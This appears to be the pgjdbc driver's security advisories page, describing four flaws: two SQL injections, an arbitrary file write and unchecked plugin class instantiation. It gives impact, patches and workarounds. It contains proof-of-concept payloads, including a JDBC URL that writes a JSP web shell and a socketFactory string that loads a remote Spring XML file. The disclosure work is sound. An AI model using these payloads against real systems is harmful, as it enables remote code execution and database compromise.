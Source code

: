 ```yaml
---
title: "Security Advisories"
date: 2024-02-21T11:58:00-05:00
draft: false
---
```


### SQL Injection via line comment generation

#### Impact

SQL injection is possible when using the non-default connection property preferQueryMode=simple in combination with application code that has a vulnerable SQL that negates a parameter value.

There is no vulnerability in the driver when using the default query mode. Users that do not override the query mode are not impacted.


#### Exploitation

To exploit this behavior the following conditions must be met:

A placeholder for a numeric value must be immediately preceded by a minus (i.e. -)
There must be a second placeholder for a string value after the first placeholder on the same line.
Both parameters must be user controlled.
The prior behavior of the driver when operating in simple query mode would inline the negative value of the first parameter and cause the resulting line to be treated as a -- SQL comment. That would extend to the beginning of the next parameter and cause the quoting of that parameter to be consumed by the comment line. If that string parameter includes a newline, the resulting text would appear unescaped in the resulting SQL.

When operating in the default extended query mode this would not be an issue as the parameter values are sent separately to the server. Only in simple query mode the parameter values are inlined into the executed SQL causing this issue.

#### Example

```java
PreparedStatement stmt = conn.prepareStatement("SELECT -?, ?");
stmt.setInt(1, -1);
stmt.setString(2, "\nWHERE false --");
ResultSet rs = stmt.executeQuery();
The resulting SQL when operating in simple query mode would be:
```

```sql
SELECT --1,'
WHERE false --'
The contents of the second parameter get injected into the command. Note how both the number of result columns and the WHERE clause of the command have changed. A more elaborate example could execute arbitrary other SQL commands.
```

#### Workarounds

Do not use the connection `propertypreferQueryMode=simple`. 
(NOTE: If you do not explicitly specify a query mode then you are using the default of extended and are not impacted by this issue.)

#### Patched

Patched in versions 42.7.2, 42.6.1, 42.5.5, 42.4.4, 42.3.9, 42.2.28, and 42.2.28-jre7

No patch available for 42.2.26-jre6

Reported by [Paul Gerste](https://github.com/paul-gerste-sonarsource)

### SQL Injection in ResultSet.refreshRow() with malicious column names

#### Impact

*What kind of vulnerability is it? Who is impacted?*

The PGJDBC implementation of the `java.sql.ResultRow.refreshRow()` method is not performing escaping of column names so a malicious column name that contains a statement terminator, e.g. ; , could lead to SQL injection. This could lead to executing additional SQL commands as the application's JDBC user.

User applications that do not invoke the `ResultSet.refreshRow()` method are not impacted.

User application that do invoke that method are impacted if the underlying database that they are querying via their JDBC application may be under the control of an attacker. The attack requires the attacker to trick the user into executing SQL against a table name who's column names would contain the malicious SQL and subsequently invoke the `refreshRow()` method on the ResultSet.

For example:

```sql
CREATE TABLE refresh_row_example (
  id     int PRIMARY KEY,
  "1 FROM refresh_row_example; SELECT pg_sleep(10); SELECT * " int
);
```

This example has a table with two columns. The name of the second column is crafted to contain a statement terminator followed by additional SQL. Invoking the `ResultSet.refreshRow()` on a ResultSet that queried this table, e.g. `SELECT * FROM refresh_row` , would cause the additional SQL commands such as the `SELECT pg_sleep(10)` invocation to be executed.

As the multi statement command would contain multiple results, it would not be possible for the attacker to get data directly out of this approach as the `ResultSet.refreshRow()` method would throw an exception. However, the attacker could execute any arbitrary SQL including inserting the data into another table that could then be read or any other DML / DDL statement.

Note that the application's JDBC user and the schema owner need not be the same. A JDBC application that executes as a privileged user querying database schemas owned by potentially malicious less-privileged users would be vulnerable. In that situation it may be possible for the malicious user to craft a schema that causes the application to execute commands as the privileged user.

#### Patches

*Has the problem been patched? What versions should users upgrade to?*

Yes, versions 42.2.26 and 42.4.1 have been released with a fix.

The 42.2.26 release was provided to support older clients that are still running JDK 6 or JDK 7 that cannot upgrade to the 42.4.x release line (which requires JDK 8+).

We are not releasing a version for the 43.3.x release line and users are advised to upgrade to the 42.4.1 release to get the fix.

#### Workarounds

*Is there a way for users to fix or remediate the vulnerability without upgrading?*

Check that you are not using the `ResultSet.refreshRow()` method.

If you are, ensure that the code that executes that method does not connect to a database that is controlled by an unauthenticated or malicious user. If your application only connects to its own database with a fixed schema with no DDL permissions, then you will not be affected by this vulnerability as it requires a maliciously crafted schema.

### Arbitrary File Write Vulnerability

#### Overview

The connection properties for configuring a pgjdbc connection are not meant to be exposed to an unauthenticated attacker. While allowing an attacker to specify arbitrary connection properties could lead to a compromise of a system, that's a defect of an application that allows unauthenticated attackers that level of control.

It's not the job of the pgjdbc driver to decide whether a given log file location is acceptable. End user applications that use the pgjdbc driver must ensure that filenames are valid and restrict unauthenticated attackers from being able to supply arbitrary values. That's not specific to the pgjdbc driver either, it would be true for any library that can write to the application's local file system.

While we do not consider this a security issue with the driver, we have decided to remove the loggerFile and loggerLevel connection properties in the next release of the driver. Removal of those properties does not make exposing the JDBC URL or connection properties to an attacker safe and we continue to suggest that applications do not allow untrusted users to specify arbitrary connection properties. We are removing them to prevent misuse and their functionality can be delegated to java.util.logging.

If you identify an application that allows remote users to specify a complete JDBC URL or properties without validating it's contents, we encourage you to notify the application owner as that may be a security defect in that specific application.

#### Impact

It is possible to specify an arbitrary filename in the loggerFileName connection parameter
 `"jdbc:postgresql://localhost:5432/test?user=test&password=test&loggerLevel=DEBUG&loggerFile=./blah.jsp&<%Runtime.getRuntime().exec(request.getParameter("i"));%>"`

This creates a valid JSP file which could lead to a Remote Code Execution

#### Patches

As of version 42.3.3 loggerFile is ignored by the driver.

#### Workarounds

upgrade to latest version.

Reported by Allan Lou v3ged0ge@gmail.com

### Unchecked Class Instantiation when providing Plugin Classes

#### Impact

pgjdbc instantiates plugin instances based on class names provided via `authenticationPluginClassName`, `sslhostnameverifier`, `socketFactory`, `sslfactory`, `sslpasswordcallback` connection properties.

However, the driver did not verify if the class implements the expected interface before instantiating the class.

Here's an example attack using an out-of-the-box class from Spring Framework:

```java
DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support. ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml");
```

The first impacted version is REL9.4.1208 (it introduced `socketFactory` connection property)
